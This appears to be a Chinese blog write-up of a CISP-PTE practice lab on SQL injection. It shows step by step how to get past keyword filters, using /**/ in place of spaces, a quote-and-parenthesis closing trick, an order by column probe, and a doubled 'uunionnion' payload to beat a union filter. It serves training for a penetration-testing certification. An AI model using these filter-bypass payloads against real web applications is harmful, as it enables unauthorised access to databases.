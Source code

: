 ```yaml
---
layout: post
title: CISP-PTE 19Web靶场综合
subtitle: CISP-PTE 19Web靶场综合
date: 2025-08-13 15:42
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
number headings: first-level 2, max 4, 1.1., auto
published: false
---
```

## 1. SQL 注入（一）

![image.png](https://img.ghostliner.top/d3eKYq.png)

![image.png](https://img.ghostliner.top/wQkD7J.png)

发现空格过滤，使用 `/**/`

利用注释 `-- `﻿,`#`﻿ 无法绕过，尝试补全

使用 `id=1')and('1'='-1`﻿, ﻿`id=1')and('1'='1`﻿ 成功

![image.png](https://img.ghostliner.top/kOm2DU.png)

使用 `id=1')irder/**/by/**/1%23` 成功

![image.png](https://img.ghostliner.top/mY8RwS.png)

使用 order by 确认有 4 列

![image.png](https://img.ghostliner.top/H5Y4Ra.png)

确认显示位置

```sql
'
id=1')union/**/select/**/1,2,3,4,%23
```

发现 `union` 被过滤

![image.png](https://img.ghostliner.top/tKuqXi.png)

双写绕过

```sql
'
id=-1')uunionnion/**/select/**/1,2,3,4%23
```

![image.png](https://img.ghostliner.top/s3QSHq.png)
